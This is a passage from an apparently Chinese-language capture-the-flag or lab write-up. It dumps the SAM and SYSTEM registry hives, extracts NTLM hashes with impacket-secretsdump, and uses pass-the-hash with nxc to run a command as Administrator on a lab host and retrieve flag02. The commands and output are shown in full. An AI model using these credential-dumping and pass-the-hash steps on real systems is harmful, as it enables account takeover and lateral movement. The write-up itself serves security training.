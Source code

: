 转储 sam&system 注册表：

```console
PS C:\Users\chenhua\Desktop> reg save hklm\sam sam.hive
操作成功完成。
PS C:\Users\chenhua\Desktop> reg save hklm\system system.hive
操作成功完成。
```

使用 impacket-secretsdump 从注册表转储文件中获取 ntlm 哈希：

```console
root@kali-server:~# impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6c2be46aaccdf65a9b7be2941d6e7759
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f82292b7ac79b05d5b0e3d302bd0d279:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a2fa2853651307ab9936cc95c0e0acf5:::
chentao:1000:aad3b435b51404eeaad3b435b51404ee:47466010c82da0b75328192959da3658:::
zhaoli:1001:aad3b435b51404eeaad3b435b51404ee:2b83822caab67ef07b614d05fd72e215:::
wangning:1002:aad3b435b51404eeaad3b435b51404ee:3c52d89c176321511ec686d6c05770e3:::
zhangling:1003:aad3b435b51404eeaad3b435b51404ee:8349a4c5dd1bdcbc5a14333dd13d9f81:::
zhangying:1004:aad3b435b51404eeaad3b435b51404ee:8497fa5480a163cb7817f23a8525be7d:::
lilong:1005:aad3b435b51404eeaad3b435b51404ee:c3612c48cf829d1149f7a4e3ef4acb8a:::
liyumei:1006:aad3b435b51404eeaad3b435b51404ee:63ddcde0fa219c75e48e2cba6ea8c471:::
wangzhiqiang:1007:aad3b435b51404eeaad3b435b51404ee:5a661f54da156dc93a5b546ea143ea07:::
zhouyong:1008:aad3b435b51404eeaad3b435b51404ee:5d49bf647380720b9f6a15dbc3ffe432:::
chenhua:1009:aad3b435b51404eeaad3b435b51404ee:07ff24422b538b97f3c297cc8ddc7615:::
[*] Cleaning up...
```

使用管理员哈希 PTH：

```console
root@kali-server:~# proxychains4 -q nxc smb 172.22.17.6 -u Administrator -H f82292b7ac79b05d5b0e3d302bd0d279
SMB         172.22.17.6     445    WIN-ENGINEER     [*] Windows 10.0 Build 20348 x64 (name:WIN-ENGINEER) (domain:WIN-ENGINEER) (signing:False) (SMBv1:False)
SMB         172.22.17.6     445    WIN-ENGINEER     [+] WIN-ENGINEER\Administrator:f82292b7ac79b05d5b0e3d302bd0d279 (Pwn3d!)

root@kali-server:~# proxychains4 -q nxc smb 172.22.17.6 -u Administrator -H f82292b7ac79b05d5b0e3d302bd0d279 -X 'type ~/flag/flag02.txt'
SMB         172.22.17.6     445    WIN-ENGINEER     [*] Windows 10.0 Build 20348 x64 (name:WIN-ENGINEER) (domain:WIN-ENGINEER) (signing:False) (SMBv1:False)
SMB         172.22.17.6     445    WIN-ENGINEER     [+] WIN-ENGINEER\Administrator:f82292b7ac79b05d5b0e3d302bd0d279 (Pwn3d!)
SMB         172.22.17.6     445    WIN-ENGINEER     [+] Executed command via wmiexec
SMB         172.22.17.6     445    WIN-ENGINEER     _____.__                 _______   ________
SMB         172.22.17.6     445    WIN-ENGINEER     _/ ____\  | _____     ____ \   _  \  \_____  \
SMB         172.22.17.6     445    WIN-ENGINEER     \   __\|  | \__  \   / ___\/  /_\  \  /  ____/
SMB         172.22.17.6     445    WIN-ENGINEER     |  |  |  |__/ __ \_/ /_/  >  \_/   \/       \
SMB         172.22.17.6     445    WIN-ENGINEER     |__|  |____(____  /\___  / \_____  /\_______ \
SMB         172.22.17.6     445    WIN-ENGINEER     \//_____/        \/         \/
SMB         172.22.17.6     445    WIN-ENGINEER
SMB         172.22.17.6     445    WIN-ENGINEER
SMB         172.22.17.6     445    WIN-ENGINEER     flag02: flag{cd0f626c-d89d-4d86-8a34-c05fabce7b51}
```
